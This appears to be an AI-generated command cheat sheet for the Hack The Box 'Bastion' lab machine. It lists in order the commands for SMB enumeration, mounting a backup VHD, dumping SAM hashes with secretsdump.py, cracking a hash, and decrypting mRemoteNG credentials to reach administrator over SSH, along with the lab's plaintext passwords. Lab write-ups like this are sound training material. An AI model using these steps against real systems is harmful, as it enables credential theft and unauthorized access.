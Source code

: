 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🔧 **Tools Used**
- `nmap`
- `smbmap`
- `smbclient`
- `mount` (with CIFS)
- `guestmount` (from `libguestfs-tools`)
- `secretsdump.py` (Impacket)
- [CrackStation](https://crackstation.net/)
- `ssh`
- `mRemoteNG`
- `java -jar decipher_mremoteng.jar`
- Custom Python decryption script
- PowerShell
- `type` (Windows)

---

## 💻 **Commands Used (Chronologically)**

### 📡 Recon
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.134
nmap -sC -sV -p 22,135,139,445 -oA scans/nmap-tcpscripts 10.10.10.134
```

### 📁 [SMB](SMB.md) Enumeration
```bash
smbmap -H 10.10.10.134
smbmap -H 10.10.10.134 -u df
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/backups
```

### 🔗 Mount SMB Share
```bash
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
find /mnt/ -type f
```

### 🧩 Mount VHD
```bash
apt install libguestfs-tools
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
ls /mnt2/
```

### 🔓 Dump Credentials
```bash
cd /mnt2/Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### 🔐 Crack Password
```bash
# Use https://crackstation.net/ on hash 26112010952d963c8dc4217daec986d9
```

### 💻 [SSH](SSH.md) as User
```bash
ssh L4mpje@10.10.10.134
# password: bureaulampje
type C:\Users\L4mpje\Desktop\user.txt
```

### 📂 Inspect Installed Software
```powershell
cd "C:\Program Files (x86)\"
```

### 🔎 mRemoteNG Profile
```powershell
cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
type confCons.xml
```

### 🔓 Decrypt Password via Java
```bash
# (Download jar from: https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/decipher_mremoteng.jar)
java -jar decipher_mremoteng.jar V22XaC5eW4epRxRgXEM5RjuQe2UNrHaZSGMUenOvA1Cit/z3v1fUfZmGMglsiaICSus+bOwJQ/4AnYAt2AeE8g==
```

### 🔓 Decrypt via Python Script
```bash
./mRemoteNG-decrypt.py confCons.xml
```

### 🔐 SSH as Administrator
```bash
ssh administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🔗 Link to Writeup

📖 [0xdf’s Full Bastion Writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html)

---

Let me know if you'd like this converted into a markdown cheat sheet or printable version 📋